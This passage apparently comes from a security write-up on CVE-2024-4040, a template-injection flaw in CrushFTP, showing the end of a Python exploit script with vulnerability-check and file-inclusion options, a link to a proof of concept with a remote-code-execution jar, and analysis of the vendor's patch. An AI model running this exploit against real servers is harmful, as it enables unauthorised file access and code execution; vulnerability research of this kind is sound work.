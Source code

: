 ```python
    args = parser.parse_args()
    print("-"*0x30)
    print("Exploit for CVE 2024-4040 - CrushFTP SSTI Vulnerability")
    print("Author: D4mianWayne (Robin)")
    print("Blog: https://d4mianwayne.github.io\n")
    print("-"*0x30 + "\n")

    if args.check:
        check_vulnerability(args.url)

    if args.lfi:
        do_include_file_command(args.url, args.lfi)

if __name__ == '__main__':
    main()

```

![Untitled](/img/CrushFTP/Untitled_9.png)

The exploit script and the exploit.jar (used for RCE) can be found [here](https://github.com/D4mianWayne/POCs/tree/main/CVE%202024-4040).


## Patch

The CrushFTP developers fixed this in 11.1.0 and 10.6.0 versions. Checking the `writeResponse` method, we clearly see that the function which was previously being called has been changed, it is now renamed to `change_user_safe_vars_to_values_static`  , previously it was `change_vars_to_values`

```java
   public boolean writeResponse(String response) throws Exception {
      return this.writeResponse(response, true, 200, true, false, true);
   }

   public boolean writeResponse(String response, boolean json) throws Exception {
      return this.writeResponse(response, true, 200, true, json, true);
   }

   public boolean writeResponse(String response, boolean log, int code, boolean convertVars, boolean json, boolean log_header) throws Exception {
      boolean acceptsGZIP = false;
      return this.writeResponse(response, log, code, convertVars, json, acceptsGZIP, log_header);
   }

   public boolean writeResponse(String response, boolean log, int code, boolean convertVars, boolean json, boolean acceptsGZIP, boolean log_header) throws Exception {
      if (convertVars && this.thisSessionHTTP.thisSession != null) {
         response = ServerStatus.change_user_safe_vars_to_values_static(response, this.thisSessionHTTP.thisSession.user, this.thisSessionHTTP.thisSession.user_info, this.thisSessionHTTP.thisSession);
      }
```
